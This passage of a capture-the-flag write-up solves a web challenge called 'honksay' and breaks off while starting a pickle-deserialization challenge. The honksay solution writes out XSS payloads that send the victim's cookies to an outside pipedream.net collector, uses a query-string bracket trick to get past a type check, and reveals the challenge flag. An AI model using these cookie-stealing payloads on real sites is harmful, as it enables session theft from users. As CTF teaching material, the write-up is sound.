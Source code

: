 #### Getting the Flag

From those pieces of code, we have the following steps:
1. Report a `/changehonk` URL to the Goose to visit
2. Include a `newhonk` query in the URL for the server to change the Goose's `honk` cookie
3. The Goose's `honk` cookie should be a type object
4. `honk` cookie renders as XSS and then we steal the `flag` cookie!

Using this basic payload that redirects an user to a different location while exfiltrating the cookie:

```
<script>
    document.location="https://en8pldcq5oe2x.x.pipedream.net/flag?cookie="%2bdocument.cookie;
</script>
```

Thinking how `finalhonk` should be and sending it directly to the parameter:

```
http://honksay.ctf.maplebacon.org/changehonk?newhonk={message: "",amountoftimeshonked: "<script>document.location="https://en8pldcq5oe2x.x.pipedream.net/flag?cookie="%2bdocument.cookie;</script>"};
```

Unfortunately sending in an entire object will be interpreted as a string, which doesn't pass the `typeof(req.cookies.honk) === 'object'`.

In order for the server to interpret it as an object, a neat trick is to add brackets before the equals sign to create the following payload:

```
http://honksay.ctf.maplebacon.org/changehonk?newhonk[amountoftimeshonked]=<script type="text/javascript">document.location="https://en8pldcq5oe2x.x.pipedream.net/flag?cookie="%2bdocument.cookie;</script>
```

Flag: `maple{g00segoHONK}`

### Pickle Factory
```
My cousin said he once got fired for putting his p\*ckle into the pickle slicer at his old workplace. Can you confirm that it's true for me?*

Note: flag lives on the local filesystem

Author: Disna#0532
```

Pickles! Given the note, it can be assumed that we need to obtain RCE or shell. The source code is a little hard to read so let's play around with the application first.

The index page prompts with two inputs:
- "Send code for processing!"
  - goes to `/create-pickle`
    - "Invalid JSON"
    - If we send valid JSON, returns, a hash
  